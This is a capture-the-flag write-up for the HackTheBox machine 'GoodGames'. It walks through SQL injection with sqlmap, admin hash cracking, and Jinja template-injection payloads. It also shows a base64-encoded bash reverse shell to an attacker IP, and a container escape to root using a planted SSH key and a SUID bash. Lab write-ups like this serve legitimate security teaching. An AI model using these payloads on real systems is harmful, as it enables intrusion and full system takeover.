 # HackTheBox - GoodGames

## NMAP

```bash
PORT   STATE SERVICE  VERSION
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store

```

## PORT 80 (HTTP)

Visting port 80 it shows us about a gaming page where it lists the current games

<img src="https://i.imgur.com/yzRxVHB.png"/>

<img src="https://i.imgur.com/SdttGHv.png"/>

But it's just a static page where these links won't lead to anywhere , there's a page to a store which says that it will be available soon

<img src="https://i.imgur.com/eDoFqQX.png"/>

There's a login page but it asks for an email address so I left this form , and went with signing up a user

<img src="https://i.imgur.com/GTwBbJg.png"/>

<img src="https://i.imgur.com/cGJCiWl.png"/>

<img src="https://i.imgur.com/mn0T2Lv.png"/>

After creating a user we can login on the site

<img src="https://i.imgur.com/ZgxY6NN.png"/>

With the password reset , I tried to see if it was taking a user name in the parameters 

<img src="https://i.imgur.com/3Wc5sG7.png"/>

<img src="https://i.imgur.com/D1OUxW6.png"/>

It wasn't taking any username so taking a step back on the login page

<img src="https://i.imgur.com/SwLT4of.png"/>

We can't perform sqli like this as it's matching the format of an email address so , I intercepted the request with burp and save the request , after that ran `sqlmap` 

<img src="https://i.imgur.com/YtrxeoJ.png"/>

<img src="https://i.imgur.com/TgbQ5M3.png"/>

This shows that it's vulnerable to sqli , so let's just dump the database.

<img src="https://i.imgur.com/IR5tyS3.png"/>

Being a time based sqli , it was taking some time to dump the data , so we only want the users table so let's just dump that

```bash
sqlmap -r sql --batch -D main -T user --dump
```

<img src="https://i.imgur.com/IRHAuq6.png"/>

We can then just skip the rest of the data as we only needed the admin hash, using crackstation to crack hash we can get the password `superadministrator`

<img src="https://i.imgur.com/vaaIFF6.png"/>

So logging with the admin credentials

<img src="https://i.imgur.com/vPflPCO.png"/>

On becoming admin , we can see another options which would take us to `internal-administration.goodgames.htb`

<img src="https://i.imgur.com/IDXmAw9.png"/>

<img src="https://i.imgur.com/dF6gllf.png"/>

This brings us another login page for `Flask Volt`

<img src="https://i.imgur.com/aYQF2PZ.png"/>

I looked if there were any default credentials for this but it seems that it's just a template on github for flask applications login page and being a flask application it might be vulnerable to one of the common attacks which is Server Side Template Injection `SSTI` maybe as this is the first thing that I would look at

<img src="https://i.imgur.com/NH5yIbd.png"/>

<img src="https://i.imgur.com/fPVkUpn.png"/>

So now let's look for an input field where we can test for SSTI payloads

<img src="https://i.imgur.com/SlSVzqh.png"/>

Setting page has an input field for username , so testing with payload `{{7*7}}` it should return the result 49

<img src="https://i.imgur.com/weIcVpr.png"/>

It did now we need to find which template engine it's using , to do that we can check with payload `{{7*'7'}}` , if it still returns the result 49 that means it's using  `twig` or if it returns 7777777 then it's using `jinja`

<img src="https://i.imgur.com/WHrkj5Z.png"/>

So it's jinja , now we need to look for payload to get command execution

```bash
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Using this payload we can execute shell commands

<img src="https://i.imgur.com/DNOud1x.png"/>

This returns as a root user , normally you would get a low privleged user like `www-data` or some other user could be that this application is hosted in a docker container  , using bash reverse shell we can get a shell by first convert the reverse shell payload to base64

<img src="https://i.imgur.com/d81uI0h.png"/>

```bash
 echo "bash -i >& /dev/tcp/10.10.14.77/2222 0>&1" | base64

```

```bash
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Ny8yMjIyIDA+JjEK" |base64 -d| bash').read() }}
```

<img src="https://i.imgur.com/fclaAa2.png"/>

<img src="https://i.imgur.com/R39NGnl.png"/>

Running `ifconfig`

<img src="https://i.imgur.com/KRQvqV4.png"/>

This IP address tells that we are indeed inside in a container , running `df -h` to see disk space we can see a directory `/home/augustus` from `/dev/sda1` as this user doesn't exist on this docker container this probably mounted from the host machine 

<img src="https://i.imgur.com/IKQc3vZ.png"/>

<img src="https://i.imgur.com/Q0iZqqh.png"/>

So here I thought of adding an ssh for `augustus` by creating a `.ssh` folder and adding the public key in `authorized_keys` file

<img src="https://i.imgur.com/jhsDlWa.png"/>

And then changing the owner of that folder to `augustus`

<img src="https://i.imgur.com/SXxSSrE.png"/>

But the host machine didn't had ssh service running when we ran nmap , could be that it's open locally or we can access it from the container

<img src="https://i.imgur.com/od8uTzi.png"/>

We can't , we know that this container's IP address is `172.19.0.2` and whenever we run a docker container on a host machine that machine becomes a gateway and the IP is assigned to `172.19.0.1`

Let's verify this by transferring a static binary of nmap

<img src="https://i.imgur.com/aLmWu4X.png"/>

<img src="https://i.imgur.com/iUpbREL.png"/>

This shows that port 80 and 22 is open , so let's give it a shot

<img src="https://i.imgur.com/KslXSrd.png"/>

And we are on the host machine now

<img src="https://i.imgur.com/7m7nDyw.png"/>

Running `sudo -l` to see what permissions we have but there's no sudo binary

<img src="https://i.imgur.com/LdaF8xK.png"/>
 
 So going back again , we saw that we can change permissions in augustus's folder ,so let's just create a file and see if it gets reflected with the room permissions 
 
 <img src="https://i.imgur.com/eukzaJC.png"/>
 
 Logging back again , we see that the file has root permissions , so we can just copy bash , make it a SUID and run it on the host machine
 
 <img src="https://i.imgur.com/FyRX7aS.png"/>
 
 <img src="https://i.imgur.com/2NMc7ue.png"/>
 
 But it didn't ran and started screaming about a library file so I transferred my host machine's bash file on the docker container , made that a SUID again and then tried running the binary and it worked
 
 <img src="https://i.imgur.com/yF70iqL.png"/>
 
 <img src="https://i.imgur.com/HsKUNQT.png"/>



## References

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
